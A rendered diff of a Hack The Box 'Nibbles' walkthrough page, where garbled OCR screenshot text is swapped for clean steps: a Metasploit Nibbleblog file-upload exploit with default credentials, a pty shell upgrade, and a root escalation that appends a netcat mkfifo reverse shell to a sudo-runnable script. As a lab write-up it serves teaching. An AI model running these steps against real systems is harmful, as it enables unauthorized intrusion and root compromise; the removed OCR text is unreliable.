

Before and after one commit to mohamed-gaber0/WRITEUPS.github.io, a Markdown page: HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md, the part around one of its changes. Shown at 90% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md
+++ b/HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md
@@ -11,8 +20,18 @@
 
-<!-- Start of picture text -->
-+<br><!-- End of picture text -->
+### Step 1: Initial Foothold via Metasploit (Nibbleblog File Upload Vulnerability)
 
+We begin by attacking the web server on port 80. The machine runs Nibbleblog, which has a well-known authenticated file upload vulnerability (CVE-2015–6967) that allows unauthenticated arbitrary file upload under certain conditions, or authenticated if credentials are known. In this case, the Metasploit module handles the authentication with default credentials (`admin:nibbles`).
 
+Run the following commands in Metasploit:
 
-Q ~~<u>i</u>~~ <u>Oo</u>
+msfconsole
+search nibbleblog
+use exploit/multi/http/nibbleblog\_file\_upload
+set RHOSTS 10.129.118.42
+set LHOST 10.10.16.7
+set USERNAME admin
+set PASSWORD nibbles
+set TARGETURI /nibbleblog
+set payload generic/shell\_reverse\_tcp
+run
 
@@ -20,10 +41,11 @@ Q ~~<u>i</u>~~ <u>Oo</u>
 
-" ” Nibbles
+If executed correctly, the exploit will upload a malicious PHP file, execute it, and return a reverse shell on port `4444` as the `nibbler` user.
 
-Linux 14 Jan 2016 Easy Retired
+### Step 2: Shell Upgrade
 
-e
+Once we have a low-privilege reverse shell (Fig 4 shows the session opened), it’s highly recommended to upgrade it to a fully interactive TTY so we can use commands like `clear`, `Ctrl+C`, and tab-completion effectively.
 
-e
+Run this Python one-liner on the victim machine:
 
+python3 -c 'import pty; pty.spawn("/bin/bash")'
 
@@ -30,52 +53,13 @@ e
 
+### Step 3: Privilege Escalation via Sudo Misconfiguration
 
+Now that we are logged in as user `nibbler`, we need to enumerate the system for privilege escalation vectors. The standard command `sudo -l` (list sudo privileges) reveals that the user can run the script `/home/nibbler/personal/stuff/monitor.sh` as `root` without requiring a password. We will exploit this by overwriting this script with a reverse shell payload that points back to our attacker machine.
 
+1.  Navigate to the correct directory:
 
+cd /home/nibbler/personal/stuff
 
+2\. Use `echo` and `tee` to overwrite the script with a netcat reverse shell one-liner:
 
+echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 8443 >/tmp/f' | tee -a monitor.sh
 
-<!-- Start of picture text -->
-Met<br>. Bebra Sih<br>-" Shee’., "36 eee", .'a6Re) *<br>"- SRedReeeeeeae) SERSESRSERSEE) 4);<br>"=" oa =.0) a ,'= ——="<br>so’ = ol coe FO<br>| Reicks) chai) a :<br>" giela) ola) aa} F<br>. Gallo) ae} a<br>* a) a i = ——<br>( zc ) /|_ / Metasploit! '}<br>1. are ‘| —— i<br>ety Pr ENSE LE<br># — —=[ 2519 exploits - 1296 auxiliary - 431 post ]<br>. =[ 1610 payloads = 49 encoders 13 mops ]<br>+ = =[ 9 evasion ]<br><!-- End of picture text -->
-
-Metasploit Documentation: https: //docs.metasploit.com/
-
-acte > ecfé > Search nibbleblog Matching Modules # Wame Disclosure Date Rank Check Description ® exploit/multi/http/Rea eg file_upload 2015-09-01 . ent Wes WGRBTERTOR File Upload VYulnerabi Lity Interact with @ module by name or index. For #xample QO, 8 or 2 ex] iy hit ib i] ‘1 asf6 >» ise 8 No payload configured, defaulting to php/metérpréter/reverse_tcp asfé exploit ) = set RHOST 10.129.116.42 RHOST =} 10.129.116.42 esf6 exploitt } > set LHOST 10.10.16.7 LHOST = 10.10.16.7 esf6 exploit( ) > show options Module options (exploit/multi/http/nibbleblog_file_upload): Name Current Setting Required Description PASSWORD yes The password to authenticate with ProxiesRHOSTS. 10.1279.118.42 noyes ATheproxytargetchainhost(s),of formatsee type:host:port|,type:host:port][https: //docs.metasploit.com/docs/using-metasploit...] RPORT 80 yes fbasics/using=-metasploitThe target port (TCP) html 55L false no Negotiate 55L/TLS for outgoing connections TARGETURT yes The base path to the web application
-
-Matching Modules
-
-<u>(A a @</u>
-
-
-
-# <u>= Medium ©</u>
-
-
-
-## Module options (exploit/multi/http/nibbleblog_file_upload):
-
-Name Current Setting Required Description
-
-PASSWORD nibbles yes The password toe authenticate with : a! Proxies ne A proxy chain of format typerhost:port| ,type:host: pert] oon } RHOSTS 108.179.218.423 yes The target host(s), see https: //docs.metasploit.com/docs/using-metasploit fbasics/using-metasploit.html RAQRT Be yes The target port (TCP) SSL false no Negotiate SSL/TLS for outgoing connections TARGETURI nibbleblog yes The base path to the web application USERNAME admin yes The Username to authenticate with WHOST ne HITP Server virtual host
-
-Payload options (generic/shell_reverse_tcp):
-
-Name Current Setting Required Oescription
-
-LHOST 18.10.16.7 yes The Listen address (an interface may be specified) LPORT 4664 Yes. The Listen port
-
-Exploit target:
-
-id Wame i] Nibbleblog 4.0.3
-
-View the full module info with the fo, or command,
-
-msf6 exploit( ) > run [+]4 StartedDeleted reverseimage. phpTCP handler on 10.10.16.7:44465 Command shell session 1 opened (10.10.16.75646464 — 10.129.218.427°43176) at 2026-07-17 B2:23°06 +0300
-
-id
-
-uid=1001(nibbler) gid=1001(nibbler) growps=1001(nibblier) whoamd i bler
-
-aaa 1 Medium members get access to everything.
-
-
-
```
Also changed, not shown: other parts of HTB Nibbles Machine Walkthrough_ From Web Exploit to Root _ by MOGS _ Aug, 2026 _ Medium.md (+29 -93 lines).
